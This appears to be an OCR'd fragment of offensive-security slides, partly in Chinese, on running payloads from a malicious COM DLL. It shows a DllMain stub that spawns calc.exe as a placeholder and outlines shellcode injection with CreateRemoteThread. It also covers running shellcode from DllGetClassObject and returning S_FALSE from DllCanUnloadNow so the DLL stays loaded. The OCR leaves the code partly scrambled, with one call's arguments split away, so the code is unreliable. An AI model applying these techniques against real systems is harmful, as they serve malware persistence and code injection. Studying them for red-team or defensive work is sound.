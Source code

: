  DoEvilStuff\(NULL\);

break; }

case DLL\_THREAD\_ATTACH: case DLL\_THREAD\_DETACH: case DLL\_PROCESS\_DETACH:

break; }

 return TRUE;

}

**Option \#1: Create process**

//spawning a new process

DWORD WINAPI DoEvilStuff\(LPVOID lpParam\) {

STARTUPINFO info = { 0 };

PROCESS\_INFORMATION processInfo;

std::wstring cmd = L"C:\\Windows\\System32\\calc.exe";

BOOL hR = CreateProcess\(NULL, \(LPWSTR\)cmd.c\_str\(\), NULL, NULL,

if \(hR == 0\) { return 1;

}

return 0;

}

TRUE, 0, NULL, NULL, &info, &processInfo\);

**Option \#2: Thread injection**

* 派生新的进程
* 加载程序锁定时，我们可以安全地调用kernel32.dll中的函数

      ○ OpenProcess\(\)  
      ○ VirtualAllocEx\(\)  
      ○ WriteProcessMemory\(\)

      ○ CreateRemoteThread\(\)

* 有了这个方法，我们可以将shellcode注入到另外一个进程
* demo：[https://github.com/theevilbit/injection/blob/master/SimpleThreadInjection/SimpleThreadInjection/SimpleThreadInjection.cpp](https://github.com/theevilbit/injection/blob/master/SimpleThreadInjection/SimpleThreadInjection/SimpleThreadInjection.cpp)
* 优点：可以产生一个新的进程，执行我们的payload
* 缺点：shellcode会被查杀
* 更多的注入技术参考 https://github.com/theevilbit/injection

**Option \#3: CreateThread\(\)**

* 我们可以在COM客户端进程中运行吗？
* 我们可以在DLLmain中调用CreateThread\(\)，但是在DllMain退出之前线程不会运行和loader lock被释放
* 在DllMain中运行恶意代码的替代方法是在COM对象运行时运行shellcode
* DllGetClassObject\(\)是在激活COM对象时调用的导出函数
* DllGetClassObject\(\)中没有加载loader lock
* DllCanUnloadNow\(\) - 当客户端调用CoFreeUnusedLibraries\(\)来释放空间时，函数将被调用
* 返回S\_FALSE以告知客户端库仍在使用中，而不是卸载它
